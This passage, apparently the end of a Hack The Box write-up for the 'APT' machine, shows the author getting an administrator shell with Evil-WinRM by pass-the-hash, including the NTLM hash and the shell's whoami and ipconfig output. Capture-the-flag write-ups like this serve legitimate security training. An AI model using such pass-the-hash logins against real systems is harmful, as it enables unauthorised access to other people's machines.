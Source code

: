 We can login as the adminstrator via Evil-WinRM pass the hash and get the flags.


```shell
┌──(sid㉿kali)-[~] 
└─$ evil-winrm -i apt.htb -u administrator -H c370bddf384a691d811ff3495e8a72e2

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
apt
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::9014:1f35:ff47:5bc8
   IPv6 Address. . . . . . . . . . . : dead:beef::b885:d62a:d679:573f
   Link-local IPv6 Address . . . . . : fe80::9014:1f35:ff47:5bc8%5
   IPv4 Address. . . . . . . . . . . : 10.10.10.213
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : dead:beef::1
                                       fe80::250:56ff:feb9:fa4b%5
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```


And that was the box, if you have any doubts feel free to message me on my social media :D
